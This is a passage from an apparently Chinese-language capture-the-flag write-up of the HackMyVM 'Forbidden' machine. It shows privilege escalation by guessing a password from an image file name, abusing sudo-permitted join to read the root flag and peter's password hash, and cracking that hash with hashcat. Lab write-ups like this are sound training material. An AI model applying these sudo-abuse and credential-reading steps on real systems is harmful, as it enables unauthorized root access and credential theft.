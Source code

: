 这是.forbidden文件逆向后的代码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/10.Forbidden.004.png)

## 5. 再次提权

获取到markos的权限后，看一下sudo -l 发现没有什么东西

之前有提示密码常在.jpg里面

直接找一下当前用户可以访问的jpg文件

```Shell
find / -name \*.jpg
/var/www/html/TOPSECRETIMAGE.jpg
```
只有这一张图片是可以访问的

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/10.Forbidden.005.jpeg)

应该就是一个misc问题了

试了几种解法发现不对

可能文件名字就是密码

密码就是TOPSECRETIMAGE

```Shell
markos@forbidden:~/html$ su marta
Password: 
marta@forbidden:/var/www/html$ sudo -l
Matching Defaults entries for marta on forbidden:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
```
join读文件

```Shell
 marta@forbidden:/var/www/html$ sudo join -a 2 /dev/null /root/root.txt
HMVmymymymymind
```
也可以用join读取peter用户的密码hash 然后用hashcat进行爆破

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/10.Forbidden.006.png)

peter用户的密码是boomer

## 6. peter提权root

```Shell
peter@forbidden:/var/www/html$ sudo -l
Matching Defaults entries for peter on forbidden:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/setarch
```
